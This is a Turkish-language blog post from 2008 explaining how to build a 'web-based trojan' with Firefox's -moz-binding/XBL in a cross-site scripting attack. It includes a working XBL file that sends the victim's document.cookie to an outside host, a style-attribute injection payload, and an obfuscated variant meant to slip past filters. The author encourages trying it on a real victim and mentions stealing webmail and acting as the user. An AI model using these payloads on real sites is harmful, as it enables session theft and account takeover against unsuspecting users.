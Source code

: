 ```yaml
---
layout: blog-post.njk
title: Web tabanlı truva atı (trojan) nasıl yapılır?
desc:
image:
createdAt: "2008-05-11T07:00:00.000Z"
path: "/journal/web-tabanli-truva-ati-trojan-nasil-yapilir"
---
```


XSS ve web guvenligi meraklilari icin birkac teknikten bahsetmeye karar verdim.Bunlardan ilki oldukca gecerli olan ve pek az bilinen, firefox'ta calisan moz-binding yontemi.Yaziyi "vuralim, kiralim" uslubuyla yazdim ancak amacim sadece guvenlik onlemleri icin kaynak olusturmak.

Gecen yil Hakan (Bilgin) cloudo icin, bense r(ainbow)92 icin kod renklendirme yapmaya calisiyorduk. Hakan o zamanlar hazirladigi bir ornekte, XBL/-moz-binding teknigini kullanarak uygulamaya CSS kodu icinden XML import ediyor, XML'in icinden de javascript calistiriyordu.Bu bana oldukca ilginc gelmis ve -moz-binding ile tanismami saglamisti.

Eger bu ilginc teknigi, Yahoo UI gelistiricisi Douglas Crockford'un JSON'u kesfetmesini saglayan script include yontemiyle birlestirirseniz (bu yontem hem data transferlerini hem de client'ta istediginiz manyakligi yapmanizi saglar), yapabilecekleriniz hayal gucunuz kadar sinirsizdir. Ornegin maillerine hotmail,gmail vb web uzerinden ulasan bir kullanicinin tum maillerini cekebilir veya habersizce istediginiz maili yazdirtip gondertebilirsiniz.

Her iki yontemin de nasil kullanildigini anlamak icin kullanicilarin cookie'lerini victim list'e kaydetmeyi amacladigimiz kucuk bir ornek yapalim, ornegi denemek icin basit bir uygulama taslagi hazirlayabilirsiniz veya gercek bir kurban secebilirsiniz..

Sectigimiz web uygulamasi kullanicilarin sadece `<strong>` vb masum gorunen html tag'lerine izin veriyor olsun.Eger bu uygulama attribute'leri kontrol etmiyorsa isimiz kolay, onload vb event'lerle direk javascript calistirabiliriz.Eger kontrol ediyorsa, style attribute'una izin verilip verilmediginden emin olun. WYSIWYG editorlerinden veri bekleyen uygulamalarin hepsinde izin verilir.

Amacimiz style attribute'u icinde -moz-binding kullanarak xbl belgesini cagirmak. Bundan evvel javascript calistiracagimiz XBL belgesini hazirlayip kurbanlarin erisebilecegi bir yere yukleyelim:

```
<?xml version="1.0"?>
<bindings xmlns="http://www.mozilla.org/xbl" xmlns:html="http://www.w3.org/1999/xhtml">

<binding id="xss">
<implementation>
<constructor>
document.body.appendChild(document.createElement("script")).setAttribute("src","http://victim.com/?append="+escape(document.cookie));
</constructor>
</implementation>
</binding>

</bindings>
```

```
style='color:red; -moz-binding:url("http://victim.com/xbl.xml#xss");'
```

Cok az bir ihtimalle kurbaniniz moz-binding yazilmasini veya cross domain veri cagrilmasini blocklamis olabilir. Bu durumda b planimiz [the-spanner.co.uk](http://thespanner.co.uk) adresinde yayinlanan bir snippet'tan geliyor:

```
/style=\-\mo\z-b\i\nd\in\g:\url(//victim.com\/xbl_log\.xml\#xss)
```

Bundan sonrasi javascript bilginize kalmis. Kullanicinin arayuzunde daha cesitli tuneller acabilir, arayuzu degistirebilir veya kullanici adina islemler yapabilirsiniz.
